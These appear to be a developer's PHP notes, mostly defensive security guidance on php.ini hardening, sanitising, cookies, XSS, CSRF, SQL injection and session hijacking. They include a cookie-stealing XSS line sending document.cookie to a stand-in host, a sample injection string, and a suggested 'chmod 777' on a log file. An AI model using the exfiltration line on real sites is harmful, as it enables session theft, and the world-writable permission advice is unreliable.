## Testing legacy code

# Intellij / PHPStorm related

## resolving tables sql

Set project SQL dialect:

View > tool windows -> database > [+] database  
Settings > Languages & Frameworks > SQL Resolution Scopes  
Settings > Languages & Frameworks > SQL Dialects

# Database centric PHP stuff

## PDO prepared statements debugging

Since PHP 7.2, `$stmt->debugDumpParams();` displays the prepared statements with the values as they are sent to the
database.

## insert or update if exists

- `INSERT IGNORE INTO [...]` inserts if id doesn't exist
- `INSERT INTO [the rest of the statement like usual] ON DUPLIKATE KEY UPDATE name="peer" lastname="teer" [rest of normal SQL statement]`

## Auto incremented indexes out of range

When deleting the content of a table and repopulating it, the autoindexing continues at the last index given (which
makes sense to avoid inconsistencies when referencing deleted entries from outside / as foreign keys), so don't use a
too small type such as `tinyint(3)` OR drop and recreate the table instead of deleting all entries.

## use exceptions to avoid unnoticed errors

    $db = new PDO('mysql:dbname=excel2db;host=localhost', 'root', 'root',
      array(PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION));

# PHP and Database version upgrades

## Upgrading from PHP 5 to 7

Main breaking changes:

- original `mysql_*` functions are removed and must be converted to `msqli` or `PDO`
- all `ereg*` functions including `split()`, `spliti()` and `sql_regcase()`; use `preg*` functions instead
- hexadecimal numbers (e.g. `0xff`) are now treated as a string literal when surrounded with quotes (`'0xff'`) so to use
  them in calculations they must be used either without quotes or converted using `hexdec()`
- ONLY `<?php` tags are accepted

# Security

Mostly notes from "php - creating secure websites" by Kevin Skoglund on linkedin learning; unrelated specific items at
the end of this section.

## Overview

- Awareness + protection = security
- Security should match needs and goals (e.g. a site without PI or other sensitive information needs less security for
  protecting access to the database than one with financial, medical or just personal information)
- Focus on the areas that need to be secured
- Reevaluate periodically for changes in
    - the areas that need protection (the site might now store email addresses for a newsletter function that it didn't
      before)
    - newly discovered attack schemes and vulnerabilities of the underlying software
    - raised / changing awareness of what kind of information is sensitive
- small sites are targeted as often as large sites
- PHP frameworks can help as they follow security best practices and is better tested

Primary security principles:

- least privilege:
    - give a user account only essential rights to make it work (e.g. HR doesn't need access to accounting data and vice
      versa)
    - code should limit which functions are exposed for other code to use
- simple is more secure
- never trust users, admins and contractors as their accounts can be hacked or they themselves might have malicious
  intents
- expect the unexpected: try to hack your own code
- defense in depth: add multiple security layers. Example would be a 2 factor authorization that, even if circumvented,
  doesn't give the hacker access to sensitive information that is not needed for the hacked user acccount
- security through obscurity: Don't give the hacker any information like "the password is wrong" or "user doesn't exist"
  as this can narrow their angle of attack
- allow and deny lists: e.g. the database should check that connections come only from a known whitelisted host
  (allow list), an IP of a suspected hack attempt can be added to a blacklist (deny list)
- map exposure points and data passageways (where can information be entered, e.g. forms or web services, what kind of
  information can come back)

## Securing the PHP installation

### Keeping versions up to date

- easiest and most important security measure
- applies to PHP, web server, database, libraries, frameworks etc.
- Dev and live servers must use the same versions
- **Write tests to make upgrades easier!**
- get notified about updates

### phpinfo and phpMyAdmin

- Never make phpinfo() or the phpmyadmin site public (duh) or at secure them with a login
- phpmyadmin: remove the setup directory after the initial setup
- set up mysql allow and deny rules so people don't have access to the entire database if they crack the login
- use authentication proxy and captchas
- best is to keep these off the public web production server

### Configure error reporting and logging

Main settings to configure PHP error reporting (in php.ini or in code):

- `display_errors` (if errors should be shown in browser)
- `log_errors` (if errors should be logged)
- `error_log` (path to log file)
    - `error_log = /path/to/errors.log`
    - `error_log = syslog` (uses the system log in linux)
- `error_reporting` (*what* errors are should be shown by PHP):
    - `E_ERROR`: fatal errors
    - `E_PARSE`: parse errors
    - `E_WARNING`: nonfatal errors
    - `E_NOTICE`: possible errors
    - `E_STRICT`: suggested improvements
    - `E_DEPRECATED`: code scheduled for removal in future PHP versions
    - `E_ALL`: all of the above
    - These can be combinde with OR (`|`), e.g. `E_ERROR|E_PARSE` and with NOT (`^`), e.g.
      `E_ALL^E_DEPRECATED` for all errors except deprecation errors; parenthesis can be used in the logical operations,
      e.g. `E_ALL^(E_NOTICE|E_DEPRECATED|E_STRICT)`

It's good practice to have separate settings (php.inis) for development and production:

- Development (example):
    - display_errors = On
    - log_errors = Off
    - error_reporting = E_ALL
- Production:
    - `display_errors` = Off (no clues to users / hackers about what might be wrong with the code)
    - `log_errors` = On (but we want to see it)
    - `error_reporting` = E_ALL if we have no known deprecations or are aware of code that produces; if we do, the log
      might get spammed by "errors" we already know and don't care about, so we might want to reduce them to the ones we
      don't expect like `E_ERROR|E_PARSE|E_WARNING`

### Other php.ini configurations

- `expose_php = Off`: don't show PHP version to client in head (`X-Powered-by`); The apache+PHP version in `Server`
  entry in the response header must be disabled in the web server configuration (`ServerSignature Off` and
  `ServerTokens Prod` in `httpd.conf` or `apache2.conf`, depending on the linux version)
  . [article apache server response header](https://ubiq.co/tech-blog/remove-server-name-apache-response-header/)
- Limiting configurations:
    - memory_limit, post_max_size, max_execution_time, max_input_time
- Disabling configurations functions targeting underlying OS:
    - `disable_functions=show_source, exec, shell_exec, system, passtrhu, proc_open, popen`
    - `enable_dl=Off` (turns off dynamic loading of PHP extensions)
- File configurations
    - `file_uploads=On`, `max_file_uploads`, `upload_max_filesize`, `open_basedir`, `upload_tmp_dir`
- Remote file configurations `allow_url_fopen = Off`, `allow_url_include = Off` to not let PHP parse code from outside
  the server

### PHP on a shared host

- configure on php.ini if possible
- if not, use the `ini_set` function to configure at runtime
- put everything in one separate configuration file that gets included at the very beginning
- today, usually sites are hosted on virtual private servers where the php.ini is accessible

## Filtering input and controlling output

### Validate input

- Determine data expectations
- Consider application and database requirements
- Which data, what format, what values
- Only allow expected data submissions
- set default values

Example of script only evaluating expected data, setting default values (null) if they don't exist and ignoring all
others:

    function extract_get_params($allowed_params=[]) {
        $allowed_array = [];
        foreach($allowed_params as $param) {
            if(isset($_GET[$param])) {
                $allowed_array[$param] = $_GET[$param];
            } else {
                $allowed_array[$param] = NULL;
            }
        }
        return $allowed_array;
    }
    
    $params = extract_get_params(['username', 'password']);

Common validations:

- presence
- length
- type
- format (e.g. email)
- within a set of values
- uniqueness (e.g. username)

See `validation_functions.php` and `validation_tests.php` for examples. Questionable naming imo.

### Sanitizing data

- converts harmful data / input into harmless data
- encoding characters: replaces potentially harmful characters (such as `", ', \` etc, into harmless equivalents)
- escaping characters: adds escape characters before characters (e.g. `\'`)
- Don't write custom sanitization functions; use PHP functions instead
- don't remove or correct invalid data

PHP sanitization functions and the filter variables for `filter_var`

Also see examples in `sanitization` folder.

### Keeping code private

- Keep code in private and public directory, e.g. the front controller (index.php) in the public directory (can be set
  with `DocumentRoot` / `root` in apache and nginx respectively, the rest in a private one not served by apache but
  accessible by the php parser via the filesystem.
- Keep credentials private and secure in a single file and don't add them to git, or use an environment variable
- protect directories by keeping an index.php in every directory so directory content isn't accidentally served by the
  webserver

### Smart logging

- log errors, sensitive actions and possible attacks

Example logger:

    // log file must exist and have permissions set that allow writing
    // Example in Unix: chmod 777 errors.log
    $log_file = 'errors.log';
    
    // An ultra-simple file logger
    function logger($level="ERROR", $msg="") {
        global $log_file;
    
        // Ensure all messages have a final line return
        $log_msg = $level . ": " . $msg . PHP_EOL;
    
        // FILE_APPEND adds content to the end of the file
        // LOCK_EX forbids writing to the file while in use by us
        file_put_contents($log_file, $log_msg, FILE_APPEND | LOCK_EX);
    }
    
    logger("ERROR", "An unknown error occurred");
    logger("DEBUG", "x is 1");
    
    echo "Logged";
    
    
    // Other loggers you can try:
    // https://github.com/Seldaek/monolog
    // https://github.com/apache/logging-log4php
    // https://github.com/katzgrau/KLogger
    // https://github.com/jbroadway/analog

### Cookie configuration

- cookie data is visible to user
- cookies can be stolen using XSS attack, e.g. by executing a javascript call in the context of the real site
  (`http://hacker.com/?steal=' + document.cookie`)
- can be observed in network traffic (non-SSL)
- Don't store sensitive information in cookies

Secure cookies by

- setting an expiration date
- set cookie domain and path
- use HttpOnly cookies
- use HTTPS and secure cookies

All these can be set with `setcookie`:

    // Secure cookie example
    // setcookie(name, value, expire, path, domain, secure, httponly)
    //
    // Pass in NULL for params to use default values
    // Defaults:
    //   expire = 0 (expires when browser closes)
    //   path = (current directory)
    //   domain = (current domain)
    //   secure = false
    //   httponly = false (note: not respected by all browsers)
    
    $name = 'lang';
    $value = 'en';
    $expire = time() + 60*60*24*7; // 1 week from now
    $path = '/store';
    $domain = 'www.mysite.com';
    $secure = isset($_SERVER['HTTPS']);
    $httponly = true; // JavaScript can't access cookie
    
    setcookie($name, $value, $expire, $path, $domain, $secure, $httponly);

## Defending against the most common attacks

### Cross-site scripting (XSS)

= tricking a page to run someone else's javascript code

Solution: sanitize any dymamic text that gets output to the browser. This applies to data from forms, URLs, from the
database, cookies, sessions or from files.

Example functions for sanitization:

    // Sanitize for HTML output
    function h($string) {
        return htmlspecialchars($string);
    }
    
    // Sanitize for JavaScript output
    function j($string) {
        return json_encode($string);
    }
    
    // Sanitize for use in a URL
    function u($string) {
        return urlencode($string);
    }
    
    // Usage examples, leave commented out
    // echo h("<h1>Test string</h1> ");
    // echo j("'}; alert('Gotcha!'); //");
    // echo u("?title=Working? Or not?");

### Cross-site request forgery (CSRF)

- Hacker tricks users into making a request to your server
- can take advantage of users logged-in state to perform privileges actions

Example:

- user leaves his banking site without logging out
- user visits in the same browser session another site that includes an image tag that performs an action on the banking
  site in the name of the user, e.g. ``

Protections:

- GET requests should be indempotent (make not changes and can be calles repeatedly)
- only POST requests should be able to make changes
- Store a token in the user's session and a hidden form field can be added with the token as the value; then the
  submitted and the session form token can be compared (like in Django: `<form method="post">`); if they
  match, the form was generated by the right website for this specific user
- track token generation time in user's session

See `csrf` folder for example.

### SQL injection

- hacker is able to execute arbitrary SQL statements
- Give limited privileges to application's database user
- sanitize input for SQL
- use prepared statements

See `SQL_injection` folder for sanitization and prepared statement examples.

### Session hijacking and fixation

Sessions store data on the server and store a session ID in a cookie in the browser

- Session hijacking: session token is stolen to impersonate the user, e.g. by sniffing out network traffinc in an open
  WLAN
- Session fixation: tricks user into using a hacker-provided session ID

Solution:

- never accept session IDs from anything than cookies
- use HttpOnly cookies
- require HTTPS

These can be set in `php.ini` and / or in the script.

php.ini:

script:

    // must be set before session_start
    session_set_cookie_params(expire, path, domain, secure, httponly)

- regenerate the session identifier periodically at key points, e.g. directly after login
- expire and remove old session files regularly
- keep track of last activity in session

See `session_hijacking_functions.php` for examples.

### Remote system execution

Hacker runs OS commands on a web server.

PHP System execution functions: `exec, passthru, popen, proc_open, shell_exec, system, ` `` (backtics)

- Avoid using these funtions or use with extreme caution;
- if not used, disable them in php.ini with `disable_functions`
- use [escapeshellcmd](https://www.php.net/manual/en/function.escapeshellcmd.php) and related (see link) to sanitize

### PHP code injection

- Remotely execute arbitrary PHP code
- by `eval` (don't use it or don't use dynamic functions)
- by remote file inclusion (`include`, `require`); use allow list for files or parts of filenames (such as not allowing
  strings with dots or slashes in them)

## $_SERVER variable

Copied from https://www.php.net/manual/en/reserved.variables.server.php, Vladimir Korneas comment:

1. All elements of the $_SERVER array whose keys begin with 'HTTP_' come from HTTP request headers and are not to be
   trusted.

2. All HTTP headers sent to the script are made available through the $_SERVER array, with names prefixed by 'HTTP_'.

3. $_SERVER['PHP_SELF'] is dangerous if misused. If login.php/nearly_arbitrary_string is requested, $_SERVER['PHP_SELF']
   will contain not just login.php, but the entire login.php/nearly_arbitrary_string. If you've printed $_
   SERVER['PHP_SELF'] as the value of the action attribute of your form tag without performing HTML encoding, an
   attacker can perform XSS attacks by offering users a link to your site such as this:

   <a href='http://www.example.com/login.php/">Example.com</a>

The javascript block would define an event handler function and bind it to the form's submit event. This event handler
would load via an  tag an external file, with the submitted username and password as parameters.

Use $_SERVER['SCRIPT_NAME'] instead of $_SERVER['PHP_SELF']. HTML encode every string sent to the browser that should
not be interpreted as HTML, unless you are absolutely certain that it cannot contain anything that the browser can
interpret as HTML.

# Frameworks

- Laravel
- Codeigniter
- Laminas (= Zend)
- Dive deeper into Slim

